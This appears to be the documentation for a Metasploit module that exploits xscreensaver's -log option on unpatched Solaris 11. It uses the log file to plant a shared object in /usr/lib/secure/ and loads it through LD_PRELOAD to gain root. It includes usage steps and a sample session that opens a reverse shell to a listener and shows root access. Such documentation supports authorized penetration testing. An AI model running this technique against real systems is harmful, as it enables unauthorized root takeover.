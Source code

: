 ## Description

  This module exploits a vulnerability in `xscreensaver` versions
  since 5.06 on unpatched Solaris 11 systems which allows users
  to gain root privileges.

  `xscreensaver` allows users to create a user-owned file at any
  location on the filesystem using the `-log` command line argument
  introduced in version 5.06.

  This module uses `xscreensaver` to create a log file in `/usr/lib/secure/`,
  overwrites the log file with a shared object, and executes the shared
  object using the `LD_PRELOAD` environment variable.


## Vulnerable Application

  This module has been tested successfully on:

  * xscreensaver version 5.15 on Solaris 11.3 (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/xscreensaver_log_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **XSCREENSAVER_PATH**

  Path to `xscreensaver` executable. (default: `/usr/bin/xscreensaver`)

  **XORG_PATH**

  Path to `Xorg` executable. (default: `/usr/bin/Xorg`)


## Scenarios

### Solaris 11.3 (x86)

  ```
  msf5 > use exploit/solaris/local/xscreensaver_log_priv_esc 
  msf5 exploit(solaris/local/xscreensaver_log_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/xscreensaver_log_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(solaris/local/xscreensaver_log_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Starting Xorg on display :1 ...
  [*] Creating log file /usr/lib/secure/QKaG911RA8.so ...
  [*] Writing '/tmp/.cqihxHb/.fjgQFF7F08.c' (248 bytes) ...
  [*] Writing '/tmp/.cqihxHb/.K94KoDObn' (61 bytes) ...
  [*] Executing payload...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.221:39510) at 2019-10-21 03:58:47 -0400
  [!] Tried to delete /usr/lib/secure/QKaG911RA8.so, unknown result
  [+] Deleted /tmp/.cqihxHb/.fjgQFF7F08.c
  [+] Deleted /tmp/.cqihxHb/.fjgQFF7F08
  [+] Deleted /tmp/.cqihxHb/.K94KoDObn
  [+] Deleted /tmp/.cqihxHb

  id
  uid=0(root) gid=0(root) groups=10(staff)
  uname -a
  SunOS solaris 5.11 11.3 i86pc i386 i86pc
  cat /etc/release
                               Oracle Solaris 11.3 X86
    Copyright (c) 1983, 2015, Oracle and/or its affiliates.  All rights reserved.
                              Assembled 06 October 2015
  ```

